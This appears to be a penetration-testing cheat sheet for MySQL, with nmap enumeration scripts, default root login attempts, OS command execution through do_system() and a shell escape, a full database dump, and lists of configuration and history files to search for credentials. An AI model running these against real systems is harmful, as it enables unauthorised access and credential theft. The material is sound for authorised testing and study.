 ## Nmap

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306

nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```

## Local Access

if you gain access to target box and see mysql running , you can try to connect with it from target locally

```
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked

# Always test root:root credential
```

## Remote Access

```
mysql -h <Hostname> -u root

mysql -h <Hostname> -u root@localhost
```

## If running as root
If Mysql is running as root and you have acces, you can run commands:

```
mysql> select do_system('id');

mysql> \! sh
```

## Getting all the information from inside the database

```
mysqldump -u admin -p admin --all-databases --skip-lock-tables 
```

## Post Enumeration
Here are list of some files to check after shell on target system to get some credentials or some juicy information that help to get root easily

### MySQL server configuration file

- Unix
    ```
    my.cnf
    /etc/mysql
    /etc/my.cnf
    /etc/mysql/my.cnf
    /var/lib/mysql/my.cnf
    ~/.my.cnf
    /etc/my.cnf
    ```
    
- Windows
 
    ```
    config.ini
    my.ini
    windows\my.ini
    winnt\my.ini
    <InstDir>/mysql/data/
    ```
    

### Command History

```
~/.mysql.history
```

### Log Files

```
connections.log
update.log
common.log
```

### Finding passwords to MySQL
- You might gain access to a shell by uploading a reverse-shell. And then you need to escalate your privilege.
    
- Look into the database and see what users and passwords that are available.

    ```
    /var/www/html/configuration.php
    ```
